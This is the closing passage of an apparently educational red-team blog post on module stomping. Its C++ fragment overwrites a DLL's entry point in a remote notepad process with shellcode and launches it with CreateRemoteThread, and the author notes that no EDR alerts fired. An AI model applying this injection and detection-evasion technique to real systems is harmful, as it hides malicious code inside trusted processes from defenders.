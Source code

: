 Now that we have the shellcode ready to go, let's load it and create a remote thread to execute it!!!

Executing the shellcode in the Remote DLL, in the remote notepad process!
-

Here, we write the shellcode to the entry point of our DLL and execute it!  Exactly what you'd expect 😄

```cpp
                    // Stomp the entry point with payload
                    WriteProcessMemory(hProc, entryPt, shellBytes.data(), shellBytes.size(), nullptr);

                    // Trigger execution
                    CreateRemoteThread(hProc, nullptr, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(entryPt), nullptr, 0, nullptr);
                }
            }
        }
    }

    CloseHandle(hProc);
    return 0;
}
```

The Calculator!!!
-

<img width="1338" height="968" alt="image" src="https://github.com/user-attachments/assets/9f3627cf-dbdb-4ca7-8a24-92c4fe2f1452" />


**Source code:** [Source Code](https://github.com/g3tsyst3m/CodefromBlog/tree/main/2025-10-3-Module%20Stomping%20101%20-%20My%20Favorite%20Stomping%20Grounds)


**Notice no EDR alerts either:**

<img width="932" height="996" alt="image" src="https://github.com/user-attachments/assets/802943d7-a68d-4a83-92d4-1d56afed454b" />

And that's it!  I hope this was informative and as always, at least somewhat entertaining 😆  Appreciate you all and thanks for supporting what I do and reading the blog!
Until next time!

***ANY.RUN Results***
-

<img width="1533" height="650" alt="image" src="https://github.com/user-attachments/assets/b20a521d-0d2f-4422-a658-d1570cc35111" />

[Full Sandbox Analysis](https://app.any.run/tasks/c7fa34cb-e7a3-452e-9a84-bcacc871a222)

<div style="text-align: right;">
Sponsored by:<br>
<img src="https://github.com/user-attachments/assets/111a0bb6-66e1-43b0-9a0a-5ce093f4b65e" alt="Sponsor logo" style="max-width: 200px;">
</div>
